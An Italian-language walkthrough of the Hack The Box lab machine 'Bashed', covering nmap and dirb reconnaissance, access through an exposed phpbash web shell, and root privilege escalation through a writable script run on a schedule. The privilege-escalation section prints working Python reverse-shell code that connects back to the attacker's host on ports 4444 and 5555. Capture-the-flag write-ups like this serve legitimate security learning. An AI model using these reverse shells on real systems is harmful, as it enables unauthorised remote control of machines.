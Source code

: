 # Bashed

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.68
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=80%CT=1%CU=31805%PV=Y%DS=2%DC=I%G=Y%TM=65095D2
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 80 Apache 2.4.18

Non trovo nulla di interessante da sfruttare.

### 2) Directory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 19 04:37:19 2023
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                              
==> DIRECTORY: http://10.10.10.68/dev/                                                                              
==> DIRECTORY: http://10.10.10.68/fonts/                                                                            
==> DIRECTORY: http://10.10.10.68/images/                                                                           
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                
==> DIRECTORY: http://10.10.10.68/js/
```

Provo ad ispezionare la seguete pagina http://10.10.10.68/dev/ e mi ritrovo qui:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-1.png" />
</p>

Aprendo il file _phpbash.php_ accedo a una shell dalla quale riesco a ricavare il primo flag user.txt.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-2.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-3.png" />
</p>

Quindi posso utilizzare l'utente _scriptmanager_ senza il bisgono di conoscere una password.

Prima di proseguire avvio una reverse shell sulla mia macchina. Per farlo faccio partire un listener sulla porta 4444 e sfrutto python sulla macchina bashed attraverso l'utilizzo di questo comando:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Successivamente cambio l'utente a _scriptmanager_:

```text
sudo -i -u scriptmanager
```

Mi soffermo sulla direcotry _/scripts_ sulla quale l'utente _scriptmanager_ ha i privilegi in lettura/scrittura.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-4.png" />
</p>

Noto che lo script python test.py scrive sul file test.txt, il quale ha privilegi root. Inoltre, il file test.txt è stato creato da poco e sembra che venga aggiornato ogni minuto. Per questo motivo può essere sfruttato per creare una reverse shell con privilegi root.

Sulla mia macchina creo uno script _test.py_ che mi permettera di generare una reverse shell (preso da [qui](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml)):

```text
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Modifico i permessi:

```text
chmod 777 test.py
```

Successivamente, prima di procedere all'invio del file alla macchina bashed, avvio un listener sulla porta 5555.

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-5.png" />
</p>
